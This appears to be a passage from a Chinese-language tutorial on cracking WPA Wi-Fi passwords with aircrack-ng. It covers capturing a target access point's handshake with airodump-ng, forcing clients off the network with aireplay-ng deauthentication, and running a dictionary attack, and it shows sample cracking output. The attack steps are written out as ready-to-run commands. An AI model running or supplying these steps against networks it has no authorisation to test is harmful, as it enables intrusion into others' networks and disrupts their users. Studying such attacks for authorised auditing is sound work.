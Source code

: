 **第三部分**

* STATION : 每一个已连接或者正尝试连接用户的MAC地址，还没有连接上接入点的用户的BSSID是“not associated”
* Lost : 过去的10秒钟丢失的数据包数量
* Packets : 用户发出的数据包数量
* Probes : 用户探测的无线网络名称，如果还没有连接那么它是用户正尝试连接的网络名称

## 监听

选择一个要破解的接入点，使用接入点信息替换下面命令的参数

```text
$ sudo airodump-ng -c ${CH} --bssid ${BSSID} -w capture ${Interface}
```

参数解释
* `-c` : 指定信道号
* `--bssid` : 指定无线接入点设备的BSSID
* `-w` : 输出到文件

如果想减小获取的包的体积，可以只捕获 IVs 信息

```text
$ sudo airodump-ng -c ${CH} --bssid ${BSSID} -w capture -ivs ${Interface}
```

参数解释
* `--ivs` : 只捕获IVs

> 注意 : 如果想要使用 GPU 加速破解，就**不能**使用 `-ivs`

此时，可以等待，直到命令的第一部分出现 `WPA handshake: XX:XX:XX:XX:XX:XX`，则代表握手包已经抓取成功了。如果一直没有成功，可以使用下面的步骤，强制断开连接以加速获取


## 强制断开以加速获取数据包（可选）

```text
$ sudo aireplay-ng -0 0 -a ${BSSID}
```

参数解释
* `-0` : 模式中的一种：冲突攻击模式，后面跟发送次数
* `-a` : 指定无线接入点设备的BSSID

## 使用字典来破解 

```text
$ aircrack-ng capture-01.ivs -w password.txt
$ aircrack-ng capture-01.cap -w password.txt
```

参数解释

* `-w` : 字典文件

破解成功输出如下

```text
                               Aircrack-ng 1.6 

      [00:00:00] 3/5 keys tested (148.08 k/s) 

      Time left: 0 seconds                                      80.00%

                           KEY FOUND! [ xxxxxxxxxxxxxxxxx ]


      MastAr KAy     : AA AA AA AD AA AA AA DA AD BA BA DA AA AA AA AA 
                       AA AF AA BA AA AB AA AA AF AA FF AA AA AA AA AA 

      TransiAnt KAy  : AF AD AA AA FA AA AA AA DA AA AA AF AA AA AA AA 
```